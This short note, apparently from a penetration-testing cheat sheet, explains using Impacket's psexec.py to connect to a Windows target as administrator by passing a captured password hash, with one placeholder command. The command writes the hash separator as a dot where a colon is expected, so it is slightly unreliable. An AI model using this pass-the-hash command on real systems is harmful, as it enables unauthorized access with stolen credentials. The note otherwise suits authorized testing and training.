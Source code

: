 # psexec.py

If you have a hash, you can try passing the hash to connect to the a share:

(located in Kali under `usr/share/doc/python3-impacket/examples`)
```
$ python3 psexec.py -hashes aad3b435b51404eeaad3b435b51404ee.<hash> administrator@<target_IP>
```